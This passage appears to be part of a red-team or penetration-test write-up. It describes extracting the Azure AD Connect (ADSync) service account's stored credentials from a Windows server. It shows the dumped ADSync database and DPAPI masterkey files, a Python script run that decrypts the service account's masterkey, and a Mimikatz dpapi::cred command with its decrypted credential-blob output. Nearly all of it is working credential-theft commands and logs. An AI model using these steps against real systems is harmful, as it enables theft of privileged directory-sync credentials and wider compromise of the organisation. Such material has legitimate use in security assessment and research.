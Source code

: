 
I also pulled the ADSync database files, credentials and masterkeys for `S-1-5-80-3245704983-3664226991-764670653-2504430226-901976451` and the `C:\Windows\system32\microsoft\protect\S-1-5-18\` directory.
Mimikatz was not cooperating so I just ran the functions in adconnectdump and scripted the masterkey decryption:

```powershell
$ python3 local_credential_processor.py  --userkey 6e3073ccfbc96e764531abd57afec2b64188b453 --credential-file A879CB98E05B516120073F8225D76BD5 --base-path "./"
2025-06-03 17:48:16 - INFO - Using custom base path: ./
2025-06-03 17:48:16 - INFO - Processing credential file: A879CB98E05B516120073F8225D76BD5
2025-06-03 17:48:16 - INFO - Found master key GUID: 00B1DC71-269C-4B1E-ABF3-555E5295BEEB
2025-06-03 17:48:16 - INFO - Found Protect directory: ./Protect
2025-06-03 17:48:16 - INFO - Found SID S-1-5-80-3245704983-3664226991-764670653-2504430226-901976451 for NT SERVICE\ADSync Virtual Account
2025-06-03 17:48:17 - INFO - Decrypted ADSync user masterkey using SYSTEM UserKey + SID
2025-06-03 17:48:17 - INFO - Decrypted masterkey: 56a0c50ae1a8b3...
Found keyset: {'decrypted_masterkey': '56a0c50ae1a8b3a..', 'masterkey_guid': '00B1DC71-269C-4B1E-ABF3-555E5295BEEB', 'sid': 'S-1-5-80-3245704983-3664226991-764670653-2504430226-901976451'}
```


With that the credential blob could be decrypted:

```powershell
PS > dpapi::cred /masterkey:56a0c50ae1a8b3a6a... /in:A879CB98E05B516120073F8225D76BD5
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {00b1dc71-269c-4b1e-abf3-555e5295beeb}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000030 - 48
  szDescription      : Local Credential Data

  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : b0ab51fc77173323f386d692a7cb07a1915b8b24a87aac842b9fd5d04578f12b
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         :
  algHash            : 0000800e - 32782 (CALG_SHA_512)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : 47257d6a548a62c9f1f5a4dcf5af1296ac62fe40612abc8d77d5575110f183c4
  dwDataLen          : 00000330 - 816
  pbData             : fb1eb6b633814ce9bd71c1cb29d8ebbd38...
  dwSignLen          : 00000040 - 64
  pbSign             : 2844cc29aaae947b37325e50...

Decrypting Credential:
 * masterkey     : 56a0c50ae1a8b3a6a9db3b0bb...
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 00000328 - 808
  credUnk0       : 00000000 - 0

  Type           : 00000001 - 1 - generic
  Flags          : 00000000 - 0
  LastWritten    : 02/06/2025 15:34:30
  unkFlagsOrSize : 00000210 - 528
  Persist        : 00000002 - 2 - local_machine
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
```